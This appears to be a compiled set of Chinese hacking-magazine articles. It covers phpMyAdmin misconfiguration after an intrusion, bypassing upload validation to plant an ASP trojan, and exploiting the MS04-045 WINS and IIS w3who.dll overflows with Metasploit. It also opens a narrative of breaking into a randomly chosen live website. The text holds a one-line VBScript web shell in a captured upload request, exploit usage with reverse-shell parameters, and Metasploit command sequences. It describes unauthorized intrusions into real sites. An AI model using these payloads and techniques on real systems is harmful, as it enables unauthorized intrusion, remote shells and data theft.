

文中提到 Serv-U 等软件可能成为获取主机权限的突破口，并引出后续针对配置与利用方法的讨论。

最后总结：从 web 入手，指出 phpMyAdmin 配置不当的若干问题，并在 asp 后门下编辑 config.inc.php，发现与预判一致的薄弱点。

- `$cfg['Servers'][$i]['auth_type'] = 'cookie';`（建议按场景调整认证类型）
- `$cfg['PmaAbsoluteUri'] = 'http://www.target.com.tw/phpmyadmin/';`（避免留空造成风险）

# 一个人的战争

C. 还有一点并不太确定，管理员管理数据库是否不通过远程，如果是远程，那我们对 root 的操作就更重要，如果改动了 root 不能远程连接 phpmyadmin，那岂不是暴露了自己！假设是管理疏忽，安装后并未正确处理 root 用户，也没有远程管理这个打算，那么 `$cfg['Servers'][$i]['user'] = 'root';` 这个地方我们应该去掉 root，这样不会导致我们从 Web 直接访问 phpmyadmin 而可以浏览全部数据库，而我们的身份则是以 root@localhost。话又说回来，如果管理员以远程方式通过 phpmyadmin 登录管理 mysql 数据，那么他应该意识到这个安全问题，所以我们做的更改是对的。为了安全起见，最好为 phpMyAdmin 设置专门的用户和权限，这里我们为目标设置为 target，密码为 7851465，该用户只能读取名为 target 数据库中的表：`grant select on target.* to target@localhost identified by "7851465";`。然后，编辑 phpMyAdmin 的 config.inc.php 文件：

```php
$cfg['Servers'][$i]['controluser'] = 'target';
$cfg['Servers'][$i]['controlpass'] = '7851465';
```

入侵过程到此结束。

**总结：** 此文记述的是一次真实的入侵过程，也是在一些同类文章的基础上写成，综合利用到一些知识，也有一些前述文章未能解决的问题！写得仓促，还望广大朋友得以谅解。此文提供的只是一种思路，着重的是解决了一些文章对导出 shell 的不足，也是本人多次尝试后的结果，希望能和更多的人交流学习。如果大家以后对 3306 端口进行扫描，发现有 root 空口令的话，就有“那么多迷茫”，当然要是在没有刀具（写的工具）的前提下“那更好了”。一些工具中仍然出现许多 bug，并不一定在我们手里就能执行得那么顺利。更多的还是靠自己去帮助测试，来弥补一些软件作者的不足，这应该也算是一种精神所在吧！

（文中涉及到的程序 autogetwebshell 已收录于光盘中）



自动网壳上传漏洞以来，关于 asp 及 php、jsp 等脚本系统的上传漏洞细节大家也一直在研究、发现。不过，归纳起来也不外乎两种情况：一个是由于上传的路径没有过滤，所以被恶意攻击者用 NULL 空字符截断；一个是上传伪文件名没有严格的认证，以至于可以用多种方法绕过。这一来造成了恶意攻击者直接上传脚本的可能。

前不久，我也碰到了一个上传的页面，不过与上边的两种方法都不一样，甚至上传的方法更为简单。不过为了掩饰入侵的思维，所以有这些诡异的经验。这个 ASP 上传页面，必须是用户注册登录以后才出现的，也就有了第一层 SESSION 认证。上传倒是可以上传任意文件，连后缀都不变。但是在客户端它又加了一层 JAVASCRIPT 认证，只要是非 JPG 和 GIF 后缀，就自动提示你不要上传。为了便于演示，也不能在这里暴露我入侵的网站的原因，我又自己动手写了一个类似的上传页面，把代码放在下边给大家分析一下（我写的完整测试源码详见光盘）：

```javascript
PP=trimAddLink_file1.value;
if (PP=="") { alert('请选择图片文件所在路径!'); return; }
PL=PP.length;
PP=(PP.substr(PL-3,3)).toLowerCase();
if (PL<=3 || (PP!='gif' && PP!='jpg' && PP!='bmp')) {
  alert('选取的文件格式不符，只能为jpg、gif、bmp');
  return;
}
ShowPhoto.innerHTML = "";
```

代码就是这样的了。问题出现了，如果你用本地提交的方法，自然可以绕过 javascript 认证，却躲不过 session 认证了。登录了以后，你有了 session 值，却又躲不过 javascript 认证（我写的上传测试页面 javascript 认证比较弱，只是表示个意思，大家不要笑。那个入侵站的 javascript 认证比较牛，如果客户端认证绕不过，它的上传代码不会工作的）。

解决的办法有一个。我们必须先来抓包分析一下。这里注意了，应与平常的抓包不一样，不应当抓上传的 asp 文件包。我们把 asp 木马改一个 jpg 后缀，然后来抓包分析一下。抓包数据如下：

```asp
<%
if Request("password")="1234" then
  session("password")="lcx"
  response.redirect "upload1.asp"
elseif session("password")<>"" then
%>
  如果这里的接收密码不等于 1234 就出来一个登录页面。
  <FORM name="user" method="POST">
    <INPUT TYPE=password NAME=password>
    <INPUT TYPE=Submit VALUE="确认提交">
  </form>
  如果密码输对了，SESSION 值为 lcx，上传代码开始工作了。不过这里有一个客户端验证的代码。
  <script language="JavaScript">
  function Preview(){
  }
  </script>
```

```http
POST /xiao/upload1.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, application/x-shockwave-flash, */*
Referer: http://192.168.8.10/xiao/upload1.asp
Accept-Language: zh-cn
Content-Type: multipart/form-data; boundary=---------------------------7d512832200d0
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NET CLR 1.1.4322)
Host: 192.168.8.10
Content-Length: 428
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONIDQSSSSRRS=AGHAGLDFLIOBKBJQCAKIPC
```

```text
---------------------------70512832200d0
Content-Disposition: form-data; name="file1"; filename="H:\2004asp工具包\asp\haiyangtop\2005\server.jpg"
Content-Type: text/html

<script language="vbscript" runat="server">if(request("#")<>"") then execute(request("#"))</script>

---------------------------70512832200d0
Content-Disposition: form-data; name="Submit"
上传图片
```

分析一下绕过这两层认证的方法。现在抓包的数据里已经满足了 JavaScript 和 Session 认证，因为上传经过了后缀检查。若想得到 ASP 后缀，只要把 `filename="...server.jpg"` 里的 jpg 改成 asp 即可。由于数据最终提交给服务端，和 JavaScript 认证无关，接下来用 nc 提交改过的数据即可上传 ASP 木马。

原理就是这样简单，方法不再赘述。不过这个例子有助于加深对上传漏洞的理解。

## ms04045 WINS 远程代码执行漏洞的利用

孟方明（-273℃@EST）

## 一、漏洞描述

Windows 前些日子公布的严重漏洞之一就是 WINS 远程执行代码漏洞。WINS 是 Windows Internet Name Server（Windows 网际名字服务）的简称，为 NetBIOS 名字提供注册、更新、释放和转换服务，维护名字到 IP 的动态数据库。由于部分处理时缺少充分验证，攻击者可构造恶意网络包触发缓冲区溢出，最终以系统权限执行任意指令。

- Microsoft Windows NT 4.0 SP6a
- Microsoft Windows 2003
- Microsoft Windows 2000 SP4
- Microsoft Windows 2000 SP3

目前看来针对 Win2003 只能是拒绝服务攻击。

## 二、漏洞利用

最初拿到的是 Linux 版本 exploit，后改成 Win 下使用，程序运行界面如下：

```text
H:\temp\c\loc>winexp
rewritten by 无敌最寂寞[E.S.T]

Usage: winexp 目标IP 反向连接IP 反向连接端口
Example: winexp 10.0.0.10 10.0.0.111 1234
```

使用很简单。要判断目标机是否可溢出，可先确认 UDP 42 端口（WINS 服务）是否开放。可用端口扫描工具确认系统是否开启 WINS 服务，nmap 扫描结果如下：

```text
H:\tools\scanner\nmap>nmap -sS -p 42 10.0.0.111
Starting nmap 3.70 ...
Interesting ports on ...
PORT   STATE SERVICE
42/tcp open  nameserver
MAC Address: 00:0C:29:37:9C:4E (VMware)
Nmap run completed ...
```

确定目标后可以溢出。准备壳时找到了一个新功能程序（从针对该漏洞的蠕虫中提取），使用方式如下：



```text
H:\tools\漏洞利用程序>ms04045
Usage: wins_exp [-h] [-i host] [-t targets] [-l listenhost] [-p listen_port]

TARGETS
0 | Windows 2000 ALL
1 | Windows 2003 CN
2 | Windows 2003 EN
3 | Windows 2003 EN #2
4 | Windows NT 4 ALL
```

似乎可以针对 2003？先测试 Win2000，结果显示可成功溢出。接下来尝试 Win2003（英文企业版）进一步验证。

后进行测试结果是失败！也不知道该程序是否是针对标准版或者网络版的呢？有兴趣的读者可以自己测试一下。该漏洞就给大家介绍到这里了，最后需要说明的有两点：

- WINS 服务不是系统默认安装的服务，但是在很多校园网络和企业内部网内都经常使用，也就是说，这个漏洞不可忽视。
- 这个漏洞可以反复利用，但要注意的是两次溢出要有一定的间隔时间。

> （本文涉及到的工具 ms04045.exe、winexp.exe，光盘有收录）

# IIS w3who.dll ISAPI Overflow 漏洞

孟方明（-273℃@EST）

## 一、漏洞描述

相信大家都知道 Windows 2000 Resource Kit 吧？这是微软提供的非常有用的工具集合。在这个工具集合中有一个 Whoami 程序，它可以用来得到当前登录用户的相关信息，而 w3who.dll 是一款 Web 版的 Whoami ISAPI 库。不幸的是，微软提供给我们的好东西却给我们带来了安全隐患。w3who.dll 对用户提交的 URL 参数缺少充分的缓冲区边界检查，远程攻击者可以利用这个漏洞使应用程序发生缓冲区溢出：提交超长的字符串作为参数给 w3who.dll，可触发溢出，精心构造 URL 数据可能以进程权限执行任意指令。

看到这里又会有人产生疑问了，这个东西用的人多吗？其实很多有心的人平时都注意收集各种漏洞，以备不时之需。不是有句话说嘛：“每个成功的黑客背后，都有一个庞大的漏洞库”。

## 二、漏洞利用

这个漏洞的 Exploit 已经包含在了最新版本的 metasploit framework 里了，而且像 ms04045 等这些最新漏洞也都包含了进去。首先我们要确定漏洞是否存在。由于时间有限，不能长时间挂在网上扫描，所以为了测试，构建了测试主机。临时检测方法是：用 GET 方法提交 `/scripts/w3who.dll`，如果返回 `200 OK`，那么你就可以尝试溢出攻击了。示例 URL：`http://10.0.0.111/scripts/w3who.dll`（如图1）。



安装好 metasploit framework v2.3 后，我们先用 web 方式来测试一下看看。打开 metasploit framework 的程序组，选择 MSFWeb，弹出提示：`Metasploit Framework Web Interface (127.0.0.1:55555)`。打开浏览器输入 URL：`http://127.0.0.1:55555`，将打开 MSF 的 web 界面（如图2）。



找到 “IIS w3who.dll ISAPI Overflow” 这一项并点击它。接着会出现漏洞描述信息，在页面底部会有一个 `select target` 提示，选择目标类型：`0 - Windows 2000 RESKIT DLL (default)`。随后进入 shellcode 选择界面，选择 `win32 reverse`（反向连接 shellcode）进入 exploit 配置界面，页面中从上到下依次是：

- `RHOST`：目标主机地址（必选）
- `RPORT`：目标主机端口（必选）
- `SSL`：是否使用 SSL（可选）
- `URL`：w3who.dll 的位置（必选）
- `EXITFUNC`：退出方式（必选）
- `LHOST`：本地监听地址（必选）
- `LPORT`：本地监听端口（必选）



图3

我们在 RHOST 内填入测试主机的 IP 地址：10.0.0.111，RPORT 为 80，LHOST 为 10.0.0.1，LPORT 为 1314，其它各项默认即可，配置好的界面如图4。



图4

接下来我们点 Check 检测是否存在漏洞，点 Exploit 就开始攻击了。我们这里直接攻击：出现了如图5的界面，这个时候我们已经攻击成功了。不相信？点那个 session 2，会弹出一个新的页面来，如图6。



图5


图6

在下面的 text 框中我们添加用户名看着，如图7。好像不成功？其实很简单的道理，IIS 运行的权限很低（非 system 权限），因此我们溢出 w3who.dll 得到的 shell 也只继承了 IIS 的那点权限而已。不要失望，能得到一个 shell 就是入侵的一大步了！



图7

## 三、最后

这个漏洞就这样利用完了。还是那么简单，感觉我这篇文章似乎介绍漏洞的太少，而介绍 MSF 这个工具却很多。不错，我的目的不只是想教会大家一个漏洞的利用，而是尽可能地为大家多介绍点东西。MSF 的 cmd 下的使用我就不多说了，成功利用后如图8。

```bash
msf > use iis_w3who_overflow payload win32_reverse
msf iis_w3who... > set RHOST 10.0.0.111
msf iis_w3who... > set RPORT 80
msf iis_w3who... > set LHOST 10.0.0.1
msf iis_w3who... > set LPORT 1314
msf iis_w3who... > check
msf iis_w3who... > exploit
```

图8

漏洞的全部利用过程我就讲到这里了，其实收集漏洞的过程就是一个学习过程，希望大家能从中学到自己想要的知识。（本文涉及到的工具 metasploit framework-2.3.exe、w3who.dll，光盘有收录）

# 一个人的战争

这些天总觉得没什么意思，想到自己很久没有在实战中练习渗透了，于是到网上随便找了一个站点，深吸一口气，渗透开始了！

### 一、渗查目标

先使用 SUPERSCAN 扫描端口，同时在站点上转转，发现了几个 SQL 注入的漏洞，虽然是 MSSQL 的数据库，但是都无法成功，大概是 ASP 的写法和我所使用的注入语句不一样吧！于是我把 NBSI2 拿了出来，左右扫了一下，发现几个没有发现的注入点，猜解完之后，不出我所料的是 DB_OWNER 用户，没什么权限，接着猜解，发现一个 MANAGE_USER 的表，得到了几个管理员用户。然后随手在网址后面加个 Admin，居然跳出了后台管理，于是写上破解的用户名和密码就登录成功了。一切看起来都是那么顺利和自然，这时候 SuperScan 的扫描结果也出来了，只开了个 80 端口，估计是做了 TCP/IP 筛选。这个好解决，在后台转转，



一眼就看到了一个上传文件的页面，试着上传一个 ASP 程序，等了几秒钟，居然提示成功了！这个时候我心里琢磨着这站点太容易进了吧，再渗透下去大概就没什么意思了，索性放弃去找另外的靶机练手。但是当我浏览这个站点的 C 盘的时候发现管理员居然做了权限设置，如图1。



图1

